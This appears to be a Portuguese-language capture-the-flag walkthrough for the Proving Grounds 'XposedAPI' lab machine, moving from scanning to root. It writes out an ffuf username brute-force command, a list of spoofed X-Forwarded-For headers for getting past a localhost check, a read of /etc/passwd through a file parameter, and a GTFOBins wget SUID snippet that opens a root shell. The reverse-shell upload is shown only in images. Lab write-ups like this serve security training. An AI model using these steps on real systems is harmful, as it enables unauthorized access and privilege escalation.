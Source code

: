 ```yaml
---
title: Proving Grounds - XposedAPI
author: mithr4nd1r
date: 2022-12-19 11:30:00 -0300
categories: [Walkthrough, Proving Grounds]
tags: [writeup, walkthrough, xposedapi, proving, grounds, PG, tutorial, hacking, pentest, ctf, capture, flag, proof, linux, medium, médio]
mermaid: true
image: "https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/api.jpg"
pin: false
---
```


Dificuldade | Opinião | 📅 Início | 📅 Conclusão
:--:|:--:|:--:|:--:
![](/assets/img/nivel/button_medio.png) | ![](/assets/img/nivel/button_medio.png) | 14 de Dezembro de 2022 | 19 de Dezembro de 2022

## 1. Escaneamento

```bash
Nmap scan report for 192.168.160.134
Host is up (0.21s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
13337/tcp open  http    Gunicorn 20.0.4
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-server-header: gunicorn/20.0.4
|_http-title: Remote Software Management API
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/14%OT=22%CT=1%CU=33249%PV=Y%DS=2%DC=T%G=Y%TM=6399E8
OS:E2%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I)SEQ(SP=108%G
OS:CD=1%ISR=109%TI=Z%TS=9)SEQ(SP=108%GCD=1%ISR=109%TI=Z%II=I%TS=A)OPS(O1=M5
OS:4EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11NW7%O
OS:6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=N)E
OS:CN(R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F
OS:=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=A
OS:R%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## 2. Enumeração

### Remote Software Management (13337)

Ao entrar na página web, vemos que a aplicação é um tipo de API e ja nos é exposto algumas rotas

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed.png)

> /version
{: .prompt-info }

A rota `version` apenas nos retorna a versão `1.0.0b` e provavelmente um hash md5 em sequência `8f887f33975ead915f336f57f0657180`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed1.png)

> /logs
{: .prompt-info }

A rota logs mostra que nosso hpst não tem acesso ao logs, provavelmente por ser acessível somente localmente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed2.png)

Seguindo a descrição da rota update, deve-se enviar um post com user e url de um arquivo elf, para ser baixado e executado. Obviamente, aqui é o ponto de entrada, porém falta o nome de usuário.

```html
/update

Methods: POST

Updates the app from ELF file. Content-Type: application/json {"user":"<user requesting the update>", "url":"<url of the update to download>"}
```

> /update
{: .prompt-info }

Como forma de descobrir o usuário, meu primeiro pensamento foi em tentar um bruteforce, então utilizando a ferramenta ffuf, tentei encontrar um usuário cuja resposta da página não retornasse `username invalid` porém não obtive sucesso…

- Comando: `ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u [http://192.168.117.134:13337/update](http://192.168.117.134:13337/update) -X POST -H "Content-Type: application/json" -d '{"user": "FUZZ", "url": "[http://192.168.49.117](http://192.168.49.117/)"}' -fs 17 -x [http://127.0.0.1:8080](http://127.0.0.1:8080/)`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed3.png)

> /restart
{: .prompt-info }

Ao enviar o restart, aparece um popup de confirmação do reinicio, porém ao clicar nele nada acontece aparentemente.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed4.png)

Ao interceptar com o Burp, verifica-se que o script envia um json de confirmação via POST pra causar o reinicio. Ao replicar isso, o serviço realmente reinicia:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed5.png)

Retornando a rota logs, procurei uma forma de burlar a detecção de host do sistema. Encontrei algumas dicas no HackTricks, onde sugere-se o uso de alguns headers que podem causar esse bypass.

[Rate Limit Bypass](https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass)

```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1
```

Ao testar o segundo header, uma mensagem de erro diferente apareceu, sugerindo usar um parâmetro na url para ter acesso ao arquivo de log.

- Header: `X-Forwarded-For: 127.0.0.1`

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed6.png)

Como o nome do arquivo é passado, tentei passar direto o arquivo de usuários `/etc/passwd` e deu certo, nos retornando a lista de usuários, agora podemos tentar upar o arquivo `.elf` malicioso usando o usuário `clumsyadmin`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed7.png)

Pra isso, subi um servidor http em python e enviei a requisição via BURP, retornando com sucesso a requisição para nós.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed8.png)

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed9.png)

## 3. Acesso Inicial - Exploração

Sendo assim, criei o binário com o msvenom, subi o servidor HTTP e abri uma porta de escuta para receber o shell

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed10.png)

Agora é necessário reiniciar o servidor e é só reenviar o post com a confirmação que descobrimos antes:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed11.png)

E o shell veio:

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed12.png)

## 4. Pós Exploração

Como de praxe, upei o [`linpeas.sh`](https://github.com/carlospolop/PEASS-ng) e fiz a varredura interna de vulnerabilidades.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed13.png)

A enumeração nos retornou o binário `wget` com execução de `SUID`.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed14.png)

## 5. Escalação de Privilégio

Então é só seguir os comandos descritos no [GTFOBins - Wget SUID](https://gtfobins.github.io/gtfobins/wget/#suid)

```
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh -p\n/bin/sh -p 1>&0' >$TF
./wget --use-askpass=$TF 0
```

Por fim, root.

![Untitled](https://mithr4nd1r.github.io/assets/img/pg/2022-12-19-writup-xposedapi/exposed15.png)